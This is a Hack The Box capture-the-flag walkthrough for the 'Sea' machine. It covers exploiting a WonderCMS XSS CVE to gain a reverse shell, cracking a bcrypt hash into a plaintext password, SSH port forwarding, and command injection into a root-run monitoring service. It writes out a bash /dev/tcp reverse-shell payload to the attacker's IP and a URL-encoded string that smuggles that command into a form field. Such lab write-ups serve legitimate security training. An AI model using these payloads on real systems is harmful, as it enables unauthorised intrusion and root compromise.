# Sea - Walkthrough


Sea is an Easy Difficulty Linux machine that features CVE-2023-41425 in WonderCMS, a cross-site scripting (XSS) vulnerability that can be used to upload a malicious module, allowing access to the system. The privilege escalation features extracting and cracking a password from WonderCMS's database file, then exploiting a command injection in custom-built system monitoring software, giving us root access.

# Initial Setup
It's always good to get into the habit when you spawn boxes/machines to always add the IP address to your etc host file. Best practice for Hack The Box is: `MachineIP MachineName.htb`

``` bash
sudo gedit /etc/hosts
```

In this case `10.129.57.60    sea.htb` as you can see in the image.



# Enumeration
Now that we have the setup good to go, we can get into some initial enumeration with Nmap. I like to run:
```bash
sudo nmap -Pn -A -T4 sea.htb -oA initial.sea.htb
```
- -Pn - to skip host discovery and jump into port scanning, because we already know the IP exists.
- -A - all in one switch that runs: -sC for default script scans, -sV for service version detection, and -O for Identifying the underlying operating system.
- -oA - then finish with this to write our results to different types of files (.gnmap (greppable), .nmap (basically .txt), and .xml) the reason for this being, so it's easier to reference our scan and also some tools can ingest xml files.
## nmap scan


From the results it's evident that port 22 and 80 are open. Based off the description of this box our attack path will most likely be 80 because CVE-2023-41425 involves a XSS workflow in hopes a user interacts with the payload. Continuing on with our enumeration....

## 80 - Apache httpd 2.4.41
Next, we’ll enumerate the web application using feroxbuster to identify interesting directories. Its simple syntax and recursive fuzzing support make it a solid choice for quickly mapping out the application.

``` bash
feroxbuster --url http://sea.htb
```
*Note: If you don't have it installed and you use Kali, simply type the name of the tool and it should give you the option to install it by pressing "y" and hitting enter. After you install it run the above command.*

While we wait for this scan to complete, I am going to browse over to the application and check it out.



Upon navigating to the URL `sea.htb` we land on this home page with 2 tabs on the right side of the page towards the middle. A big thing with web app pentesting is figuring all out how an application is designed and what the normal workflow is and then conduct testing to try to break, bypass, and eventually fix the application after you are done having your fun. Moving on to checking out the other tabs function.



When we land on this page and it provides a hyperlink in the body of text that seems to direct us to a registration panel. A comment is made about being able to add a website which is quite interesting because it can open doors for attacks like stored XSS. Let's click on the hyperlink and see what's going on here. 




Alright so now we see that there is a registration form. Let’s test for XSS behavior in the Website field.

### Skip this if you want to go for flags, but if you want to hopefully learn something read on

Alright well that did not prove useful but the theory without even using Burp is if user input is rendered without sanitization, we may be able to observe external resource loading, which can indicate XSS. Ex: `http://10.10.15.203/xss`.

``` bash
python3 -m http.server
```

Once we start the server up we can go back to the registration form and fill it out again this time with our above example. Click submit and check out http server to see if there is a hit.







At this point, we confirm that user-controlled input from the Website field is stored and rendered by the application. This behavior indicates a potential stored XSS condition. By this time our feroxbuster scan should be done so if you haven't, we will go ahead and check on it!



After the scan has completed we see we have a good amount of results half result in 404, so we won't worry about those. I'm not too concerned about 301 (redirects), so I will go with 200 response codes because we know those are for sure valid. The first one is `/themes/bike/version`.



We identify the version number of something as 3.2.0. Continuing on with enumerating the endpoints of the `/themes/bike/` directory up next is `LICENSE`.



If you have any familiarity with GitHub you know that this is a license that you can chose to include when creating a repository. This file indicates just that. It also shows us the GitHub user who owns this, "turboblack". Ideally during a fingerprint/enumeration phase of a test we could go to his GitHub and try to find out more about the bike theme. If you did go there you would do some in depth reading just to find the the bike theme and figure out that its a wonderCMS theme. Then putting 2+2 together we have the version 3.2.0 from feroxbuster and then the CMS confirmation for the bikes theme. Do a quick google search from "WonderCMS 3.2.0 exploit github" and find the CVE below.

# Exploitation
So thanks to the machines description we know the proper CVE to look for and now we have a good idea what field is part of the attack vector. Next step is to search for the correct exploit.



After a quick google search of `CVE-2023-41425 github` I clicked on this users repo for the CVE, so pay close attention for the right repository. Next to check out the script (exploit.py).



Go ahead and click the option to copy the raw text. We are going to create a new directory and throw that into our own file and make some modifications because this will not work as is.. I know this because I spent probably over 12 hours bashing my head. One thing that you will find with exploits scripts on github is that they almost always require a degree of modification/tweaking. It is a good idea to learn to get comfortable with that if you like CTFs.

``` bash
mkdir exploit;cd exploit
gedit exploit.py
```



When you have the file open there are 4 things you are going to want to do:
1.) Download the zip file via wget. This zip file contains a directory revshell-main with a reverse shell file inside it.
``` bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

2.) Then delete the majority of the URL leaving `/main.zip`, so deleting it should look like this: 
"https://github.com/prodigiousMind/revshell/archive/refs/heads"

3.) Now replace what you deleted with your attack ip/port.:
```bash
http://YourIP/8000
```

4.) Lastly we will replace the variable "urlWithoutLogBase"'s value with the web application we are targeting, so it will look like:

```bash
var urlWithoutLogBase = "http://sea.htb"; 
```
Now we can go ahead and save our file and close it to run our exploit. If you don't know how to use it you can just type in `python3 exploit.py
`


So there is a lot going on here, we have 3 highlights:

1.) Syntax to use. We are identifying the applications login panel and the IP and Port is our address we plan to establish a shell with.
```bash
python3 exploit.py http://sea.htb/loginURL 10.10.15.203 8888
```
2.) In order to get that reverse shell, open up a new terminal and run `nc -lvp 8888`
``` bash
nc -lvp 8888
```
3.) The 3rd highlight is that once we have entered the IP and port we want to to establish a shell, a Reflected XSS payload is generated for us that we will copy and paste in the Website input field on the `/contact.php` endpoint and fill the rest out and submit it. If all goes well we will see GET request from our web server that the exploit script stood up and should have a shell in our netcat terminal tab.





A GET request for xss.js was indeed made and now we should have a shell, so check out your netcat listener.
*Note: This will require you to wait a minute or so, so give it some time for the task/bot to execute our payload.*



Boom! We have a shell! Keep in mind if this doesn't work you need to make sure that you configured the exploit.py file correctly, that way it can generate the proper contents inside of xss.js. Secondly double check your IP's inside the files, as well as your syntax IP's.

Now to stabilize our shell before we get into post-comp enumeration.

``` bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Background the shell with: Ctl+Z
``` bash
stty raw -echo;fg
```
Hit enter and then copy this to give you full shell functionality, like being able to clear the terminal.
``` bash
export TERM=xterm
```
# Post-Compromise Enumerations
As we can tell now we are not a valid user able to snag user.txt. We are "www-data". So we need to look around for misconfigurations or useful info in files.

```bash
cat /etc/passwd
```

This is one thing I normally run just to figure out what users are on this machine. After some enumeration I couldn't find any noticeable misconfigurations and www-data is only in the group created for itself. One good place to look for useful information while www-data on machines is in the directory where web server files are typically stored (/var/www/html).



Upon navigating to the directory there is nothing in there, so i backed up a directory to `/var/www/`. Listing out objects again shows there is a sea directory. Changing into it shows us a few files we enumerated earlier with feroxbuster but previously got 403 forbiddens for. Instead of searching each manually its easier to run grep recursively for specific words, so I did exactly that.

``` bash
grep -R password
```


And we are in luck! This password looks like it is using the Bcrypt/Blowfish encryption algorithm given the `$2$`. We can now work on taking that password hash offline and using tools like John the Ripper or hashcat in attempt to crack the hash, so lets go ahead and give that a go!

### hashcat - password hash cracking
Now that we have our hash in a file (name of our choice) hashcat has a lot of different password format modules so we will look for the correct one for bcrypt/blowfish.

``` bash
hashcat -hh | grep -i blowfish
```


Before we start cracking the password we should take a look again at our hash. It has extra back slashes, so it will end up becoming too long/malformed for hashcat to process. To address that we will run `sed`.

```bash
sed -i 's#\\/#/#g' hash.txt
```

Our syntax to begin cracking will look something like this.

``` bash
hashcat -w 3 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```


After a few minutes of letting this task run hashcat was able to crack our password `mychemicalromance`. Now that we have a valid password we can try 2 things. Try to use this password on the web application and try to utilize the `su` utility to switch to a user on the compromised machine.





After a few minutes of experimenting we have 2 leads. Not only did I authenticate to the application, but I also was able to switch users; to user amay. At this point I can probably go ahead and grab out first flag in that users directory.



## Post-Comp/Exploitation - PrivEsc
Time to start probing around with our new access. We don't see anything to interesting.



After a few minutes of nothing of use in the application I moved back over to our shell. My next logical step was to upload linpeas onto the box. I quickly ran `wget` to see if it was installed on the box (it was) and then hosted up linpeas from my Kali box. Kali has this downloaded by default in the `/opt/linpeas` directory.

```bash
python3 -m http.server
```
```bash
wget http://IP/linpeas.sh
```



Once successfully put onto the target machine we need to change it's permissions to be able to execute the script.

```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```


To sum it up I was able to find some leads but it didn't really lead anywhere, so I guess I will continue on with manual system enumeration. We can try to look into running processes and services.

```bash
ps -aux
```
```bash
ss -lntp
```



We are able to find 2 ports that are listening: 8080 and 46403. We can `cd` into the /etc directory and from there we can grep recursively to see any configuration files that might have any affiliation with these ports.

```bash
cd /etc
grep -R 8080 2>/dev/null
```



This monitoring service looks kind of interesting and is being run from the root directory. This makes me think that I am going to have to try some sort of ssh port fwding to redirect this port to a port on my Kali box. Remember what I said at the beginning about SSH being open coming into play later. Let's go ahead and set up a ssh Local (-L) port foward. I am creating a local port forward that binds my local machine’s port 8081 to the target machine’s localhost interface (127.0.0.1) on port 8080. This allows me to access a service that is only listening internally on the target system by forwarding it through the SSH tunnel.

```bash
ssh -L 8081:127.0.0.1:8080 amay@10.129.57.60
```

Once you hit enter answer with yes. Then you will be prompted for user amay's password:
```bash
mychemicalromance
```



At this point we can forget about our reverse shell we have been interacting with because we now the ssh server offers up password based authentication and not solely ssh keys. We have successfully set up a port forward and should now head over to the browser and look up our ip and respective port.

```bash
localhost:8080
```



Upon hitting enter to navigate to this site we are prompted with a Basic Authentication form. Input amay's credentials and hit sign in.



We're brought to this screen that matches what we found on our target machine (system monitor). There isn't much going on here and I know this is the right place to be so I'm going to open up Burp and capture some of the traffic.



While clicking around on the application to make sure I caught everything, I accidentally deleted my logs. Not sure if that is a big issue, but we shall see. I did get the chance to find an interesting post request though. Since I am the worlds worst hacker I know that from the machine description I am going to be trying to do some command injection within this application (most likely this POST request) to gain a root shell or simply read the root.txt file if possible.



I was able to figure it out after a bit after trying a couple different command injection techniques. In order for this to work we need to add a hashtag  I ran `id` and `cat /etc/passwd` to find the server was running as root. We can try a more native way of getting a shell in hopes that it doesn't get detected as suspicious. We can try again setting up a listener and sending a reverse shell cmd injection. In a new terminal run this.

```bash
nc -nvlp 8888
```

Now edit your payload in burp: `bash -c 'bash -i >& /dev/tcp/10.10.15.203/8888 0>&1` We just need to make sure that payload gets URL encoded.

```bash
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.15.203/8888+0>%261';#&analyze_log=
```

Come to find out the we are able to pop a quick shell but it lasts like 5 seconds and then it exits. **The quick TL;DR**: The reverse shell connects, but the web server closes the request, the parent process dies, and the shell exits with it. Because the reverse shell was short-lived, I prepared the `cat /root/root.txt` command in advance and ran it as soon as the shell connected to capture the flag before it exited. I did happen to check out how people like IppSec completed this part and found out later on the `nohup` command to ensure the connection doesn't drop, so if you want to check out the box then do that to get a reliable shell.



After a little over 24 hours of work Sea has been owned. Happy Hacking!! :)
